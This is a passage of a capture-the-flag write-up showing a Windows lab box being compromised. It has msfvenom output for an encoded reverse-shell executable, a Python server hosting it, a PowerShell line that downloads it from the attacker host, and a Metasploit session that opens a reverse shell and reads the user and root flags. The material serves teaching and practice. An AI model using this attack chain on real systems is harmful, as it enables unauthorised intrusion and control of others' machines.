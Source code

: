 The output will be similar to
{% capture code %}{% raw %}[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 368 (iteration=0)
x86/shikata_ga_nai chosen with final size 368
Payload size: 368 bytes
Final size of exe file: 73802 bytes
Saved as: Message.exe{% endraw %}{% endcapture %} {% include code.html code=code %}

Create a `python web server` to download the `reverse shell` payload.
{% capture code %}{% raw %}python -m http.server 8080{% endraw %}{% endcapture %} {% include code.html code=code %}

The output will be similar to
{% capture code %}{% raw %}Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...{% endraw %}{% endcapture %} {% include code.html code=code %}

From the `meterpreter` shell in `msfconsole -q`, download the payload and exit the shell.
{% capture code %}{% raw %}meterpreter> shell
C:\Program Files (x86)\SystemScheduler> powershell -c wget "http://<source-ip>:8080/Message.exe" -outfile shell.exe
powershell -c wget "http://<source-ip>:8080/Message.exe" -outfile shell.exe

C:\Program Files (x86)\SystemScheduler>^C
Terminate channel 4? [y/N]  y
meterpreter > exit
[*] Shutting down Meterpreter...

[*] <target-ip> - Meterpreter session 1 closed.  Reason: User exit{% endraw %}{% endcapture %} {% include code.html code=code %}

From the `meterpreter` shell in `msfconsole -q`, set `LPORT` variable as per new `reverse shell` payload, retaining existing handler and other variables, and exploit to get the flags.
{% capture code %}{% raw %}msf5 exploit(multi/handler) > set LPORT 4444
LPORT => 4444

msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on <source-ip>:4444
[*] Sending stage (176195 bytes) to <target-ip>
[*] Meterpreter session 2 opened (<source-ip>:4444 -> <target-ip>:49332) at 2021-05-02 06:24:01 +0100

meterpreter > shell
Process 812 created.
Channel 2 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\PROGRA~2\SYSTEM~1>cd C:\Users\jeff\Desktop
cd C:\Users\jeff\Desktop

c:\Users\jeff\Desktop>type user.txt
type user.txt
<flag>

c:\Users\jeff\Desktop>cd ../../Administrator/Desktop
cd C:\Users\jeff\Desktop

c:\Users\Administrator\Desktop>type root.txt
type root.txt
<flag>{% endraw %}{% endcapture %} {% include code.html code=code %}
